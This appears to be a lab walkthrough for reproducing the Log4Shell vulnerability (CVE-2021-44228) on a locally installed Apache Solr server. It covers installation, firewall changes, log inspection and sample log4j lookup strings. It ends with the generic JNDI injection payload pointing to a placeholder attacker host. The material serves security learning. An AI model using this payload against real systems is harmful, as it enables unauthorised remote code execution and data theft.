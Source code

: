 ### Step 2 - Install Apache Solr on CentOS 8
Now download the required Solr version. You may also use the below command to download Apache Solr 8.9.0. or 8.11.0. After that extract the installer script.

```bash
wget https://archive.apache.org/dist/lucene/solr/8.9.0//solr-8.9.0.tgz
sudo tar xzf solr-8.9.0.tgz solr-8.9.0/bin/install_solr_service.sh --strip-components=2
```
- Then execute the installer script with bash shell followed with downloaded Archive file. The command will be like below:
```bash
sudo bash ./install_solr_service.sh solr-8.9.0.tgz 
```
- This will create an account named solr on your system and finish the installation process. After that start the service default Solr port 8983.
- To restart or stop service use the following commands:
```bash
$ service solr start
$ service solr restart
$ service solr stop
```
![2](../assets/img/Log4Shell/00.png)
- Note that this port is flittered to outside world to open it do the following command to allow it through firewall.
```bash
sudo firewall-cmd --add-port=8983/tcp --permanent
sudo firewall-cmd --reload
```
## Discovery:

- Explore the web interface accessible at http://MACHINE_IP:8983 and click around to get a feel for the application. For more detail on Apache Solr, please refer to their official [website](https://solr.apache.org/){:target="_blank" rel="noopener"}.

## Proof of Concept:
- Note that the URL endpoint that you have just uncovered needs to be prefaced with the solr/ prefix when viewing it from the web interface. This means that you should visit:http://MACHINE_IP:8983/solr/admin/cores
![3](../assets/img/Log4Shell/01.png)

- Now check the solr.log file on CentOS.
![4](../assets/img/Log4Shell/02.png)
- You noticed that params seems to be included in the log file. At this point, you may already be beginning to see the attack vector.
- The log4j package adds extra logic to logs by "parsing" entries, ultimately to enrich the data -- but may additionally take actions and even evaluate code based off the entry data. This is the gist of CVE-2021-44228. Other syntax might be in fact executed just as it is entered into log files.
Some examples of this syntax are:
```
${sys:os.name}
${sys:user.name}
${log4j:configParentLocation}
${ENV:PATH}
${ENV:HOSTNAME}
${java:version}
```
- You may already know the general payload to abuse this log4j vulnerability. The format of the usual syntax that takes advantage of this looks like so:
```
${jndi:ldap://ATTACKERCONTROLLEDHOST}
```